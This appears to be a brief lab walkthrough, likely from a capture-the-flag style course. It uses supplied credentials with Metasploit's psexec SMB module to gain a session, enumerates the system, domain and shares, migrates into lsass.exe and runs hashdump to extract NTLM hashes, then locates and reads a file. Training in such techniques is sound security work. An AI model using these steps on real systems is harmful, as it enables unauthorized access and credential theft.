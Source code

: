 
**Prompt:**
- You can use the credentials below to simulate an initial compromise over SMB (Server Message Block) (using exploit/windows/smb/psexec)

Username: ballen

Password: Password1


(1) use `exploit/windows/smb/psexec`
(2) Set options (RHOSTS, SMBUser, SMBPass)
(3) `Run`

- `systeminfo` - > Computer Name
- `systeminfo / enum_domain` -> Domain Target
- `enum_shares` Set SESSION option to (backgrounded Session)

(4) To find the NTLM Hash
- You must migrate to the lsass.exe (holds HASHES for Users)
- `ps` to find the PID
- migrate PID
- `hashdump`

(5) To find a file run 
- search -f "file.txt"
- Retrieve path
- `cat "path"`
- USE QUOTES ^ because of the full path spaces